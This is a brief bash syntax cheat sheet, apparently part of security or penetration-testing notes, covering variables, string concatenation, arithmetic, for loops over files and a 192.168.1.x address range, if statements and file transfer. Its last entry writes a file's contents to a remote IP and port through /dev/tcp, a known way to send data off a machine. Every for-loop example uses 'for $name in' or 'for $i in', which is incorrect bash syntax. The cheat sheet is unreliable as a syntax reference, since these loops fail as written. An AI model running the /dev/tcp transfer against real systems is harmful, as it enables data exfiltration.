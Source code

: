 # bash

## Variables

### Assign Variable

```bash
foo=1
```

```bash
bar=baz
```

### Use Variable

```bash
$foo
```

## Strings

### Concatenate Strings

```bash
"$foo $bar literals, too"
```

## Arithmetic

```bash
$ n=100
$ ((n=$n+20))
$ echo $n
120
```

## For Loop Structure

### For Each
- Single Line

```bash
for $name in $(cat names.txt); do echo $name; done
```

- Multiline

```bash
for $name in $(cat names.txt); do
    echo $name
done
```

### For i in Range
- Single Line

```bash
for $i in {1..254}; do echo "192.168.1.$i"; done
```

- Multiline

```bash
for $i in {1..254};
    do echo "192.168.1.$i";
done
```

## If Structure
- Single Line

```bash
if [ $foo -gt 0 ]; then echo $foo; fi
```

- Multiline

```bash
if [ $foo -gt 0 ]; then 
    echo $foo
fi
```

## File Transfer

```bash
cat $FILE > /dev/tcp/$REMOTE_IP/$REMOTE_PORT
```
